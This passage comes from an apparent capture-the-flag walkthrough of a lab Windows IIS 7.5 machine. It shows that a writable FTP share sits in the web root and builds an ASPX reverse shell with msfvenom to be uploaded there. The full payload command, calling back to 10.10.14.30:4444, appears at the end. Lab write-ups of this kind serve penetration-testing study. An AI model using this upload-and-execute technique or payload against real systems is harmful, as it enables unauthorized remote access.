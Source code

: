 ![](https://miro.medium.com/max/876/1*WBX7Z9_cACpzZ4Wt_E8ssg.png)

Okay, we’re in! Let’s view the files in the current directory.

![](https://miro.medium.com/max/800/1*0w9cHvVn0yDPHnSlRzKfjg.png)

Try navigating to these files in the browser.

![](https://miro.medium.com/max/1043/1*lGveH44s5a0Gxbsin4swiw.png)

The FTP server seems to be in the same root as the HTTP server. Why is that interesting? Well, if I upload a reverse shell in the FTP server, I might be able to run it through the web server.

To test out our theory, we’ll create a test.html file that displays the word “hello”.

![](https://miro.medium.com/max/742/1*2orMgPfOS4FRRk8DaDUDOQ.png)

Upload the file on the ftp server.

![](https://miro.medium.com/max/706/1*N6lrbk0Z5Bi4naBv1MTStw.png)

List the files in the directory to confirm that the file has been uploaded.

![](https://miro.medium.com/max/652/1*hIaJ5PwS9aHl7YK2xLDmWQ.png)

In the web browser, check if the test.html file is rendered in the web server.

![](https://miro.medium.com/max/571/1*lmTo521jt20qY7YmUILPPg.png)

Alright! This confirms that if we upload a file in the ftp server, and call it in the browser it will get executed by the web server. Our nmap scan showed that the web server is Microsoft IIS version 7.5. IIS web server generally either executes ASP or ASPX \(ASP.NET\). Since the version is 7.5, further googling tells us that it likely supports ASPX.

## Gaining a Foothold <a id="4ff1"></a>

Let’s use MSFvenom to generate our reverse shell. MSFvenom is a framework that is largely used for payload generation. To display the format of payloads it supports, run the following command.

```text
msfvenom --list formats
```

The output shows that aspx is one of the options. Similarly, you can check the payload options with the following command. Since the machine we’re working with is Windows, we filter out the results to only show us Windows payloads.

```text
msfvenom --list payloads | grep windows
```

We’ll go with the general reverse shell since Meterpreter is not allowed in the OSCP.

Run the following MSFvenom command to generate the aspx payload.

```text
msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.30 LPORT=4444 -o reverse-shell.aspx
```
